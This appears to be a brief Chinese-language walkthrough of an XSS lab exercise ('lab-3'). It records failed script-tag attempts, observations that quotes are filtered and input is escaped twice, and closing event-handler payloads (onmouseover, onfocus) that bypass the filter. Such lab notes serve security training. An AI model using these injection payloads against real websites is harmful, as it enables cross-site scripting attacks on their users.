 # lab-3
输入<script>alert('1')</script>,没有弹窗
尝试"><script>alert('xss')</script>//,结果不行,但是发现输入框的内容缺失了
![](vx_images/55024092849542.png)
测试1',发现'被过滤
查看源码,发现对输入的值进行了两次转义,用事件触发
'onmouseover='alert(1)
'onfocus=javascript:alert(1)>//